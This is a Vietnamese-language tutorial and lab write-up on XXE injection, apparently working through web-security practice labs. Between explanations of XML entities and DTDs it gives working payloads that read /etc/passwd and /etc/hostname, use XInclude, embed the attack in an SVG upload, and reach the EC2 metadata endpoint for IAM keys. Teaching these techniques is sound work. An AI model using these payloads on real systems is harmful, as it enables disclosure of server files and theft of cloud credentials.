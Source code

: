 # XML external entity (XXE) injection
![alt text](image.png)
## XXE là gì?
XML external entity injection (còn được gọi là XXE) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng.  
Trong một số trường hợp, kẻ tấn công có thể leo thang cuộc tấn công XXE để xâm phạm máy chủ cơ sở hoặc cơ sở hạ tầng phụ trợ khác bằng cách tận dụng lỗ hổng XXE để thực hiện tấn công SSRF.
## XML entities
### XML là gì?
XML là ngôn ngữ đánh dấu, được thiết kế để lưu trữ và chuyển dữ liệu. XML không giống HTML ở chỗ có thể tạo ra các tag mới không có sẵn để mô tả các dữ liệu cụ thể mà người dùng mong muốn.
### XML entities là gì?
XML entities là entities là những đoạn ký hiệu đại diện cho một giá trị nào đó trong file XML. Ví dụ, `&lt;`và `&gt;` biểu diễn các ký tự `<` và `>`. 
### DTD là gì?
XML document type definition (DTD) chứa các khai báo có thể định nghĩa cấu trúc của một tài liệu XML, các kiểu giá trị dữ liệu mà nó có thể chứa và các mục khác. 
### XML custom entities là gì?
XML entities chia ra làm 2 loại, 1 loại có sẵn được định nghĩa sẵn như các ví dụ về `&lt;`và `&gt;` ở trên. 1 loại nữa là loại do người dùng tự định nghĩa. Có 2 cách để định nghĩa XML entities này, đó là ở trong (định nghĩa trong DTD) và định nghĩa ở ngoài.  
Ví dụ về 1 XML Entities được định nghĩa trong DTD:
```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```
Với định nghĩa này, trong file XML sẽ sử dụng tham chiếu `&myentity;` thay cho `my entity value`.
### XML entities External là gì?
XML entities External như đã nói ở trên, là loại được định nghĩa ngoài DTD.   
Ví dụ, khai báo entity `SYSTEM` được tải từ 1 URL nằm ngoài DTD:
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```
hoặc tải từ file có sẵn
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```
Các XML external entities là thứ phát sinh ra các lỗ hổng XXE.
## Tấn công XXE để truy xuất các tệp
Giả sử có 1 request tới máy chủ có chứa đoạn XML như sau: 
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
Ý tưởng là kẻ tấn công inject thêm 1 đoạn XML nữa để định nghĩa 1 XML external entity, sau đó gọi tham chiếu của entity này. Cụ thể
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Khi gọi tham chiếu, nội dung của file này hiện ra.

### Bài lab: Exploiting XXE using external entities to retrieve files
Mục tiêu bài lab: Trong bài chứa lỗ hổng XXE có thể khai thác được ở chức năng check stock (có đầu vào XML). Hoàn thành bài lab bằng cách khai thác XXE để hiện ra file /etc/passwd.
Request có đầu vào XML có chứa lỗ hổng
![alt text](image-1.png)
Khai thác để lấy file /etc/passwd
![alt text](image-2.png)

## Khai thác XXE để tấn công SSRF
Để khai thác trong trường hợp này, ta sẽ sử dụng tạo XML external entity với nguồn vào từ 1 URL. Khi thành công, external entity sẽ tạo 1 request HTTP tới hệ thống trong với XML external entity là:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### Bài lab: Exploiting XXE to perform SSRF attacks
Mục tiêu bài lab: Trong bài chứa lỗ hổng XXE có thể khai thác được ở chức năng check stock (có đầu vào XML). Hoàn thành bài lab bằng cách khai thác XXE để tấn công SSRF nhằm lấy được khóa truy cập bí mật IAM của máy chủ EC2 (IP máy chủ http://169.254.169.254/).
![alt text](image-3.png)
## Khai thác XXE với XInlude
Một số ứng dụng nhận dữ liệu do máy khách gửi, nhúng dữ liệu đó vào phía máy chủ trong một tài liệu XML, sau đó phân tích cú pháp. Ở trường hợp này, không thể khai thác XXE theo hướng tạo XML entity external như ở trên vì không sửa được `DOCTYPE`. Thay vào đó, có thể sử dụng `XInclude`. `XInclude` để xây dựng 1 tài liệu phụ bổ sung. Payload lúc này là:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Bài lab: Exploiting XInclude to retrieve files
Mục tiêu bài lab: Trong bài chứa lỗ hổng XXE có thể khai thác được ở chức năng check stock (đưa đầu vào vào XML doc và phân tích cú pháp). Cần chèn một `XInclude`để lấy nội dung của tệp `/etc/passwd`.
![alt text](image-4.png)

## Khai thác XXE với upload file (via upload file)
Một số định dạng tệp phổ biến sử dụng XML hoặc chứa các thành phần phụ XML. Ví dụ về các định dạng dựa trên XML là DOCX, SVG.
### Bài lab: Exploiting XXE via image file upload
Mục tiêu bài lab: Trong bài lab này, cho phép người dùng đính kèm ảnh đại diện vào bình luận và sử dụng thư viện Apache Batik để xử lý các tệp ảnh đại diện. Cần tải lên hình ảnh hiển thị nội dung của /etc/hostname sau khi xử lý để tìm flag.

Tạo file SVG có nội dung: 
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
File svg thấy được

![alt text](image-5.png)
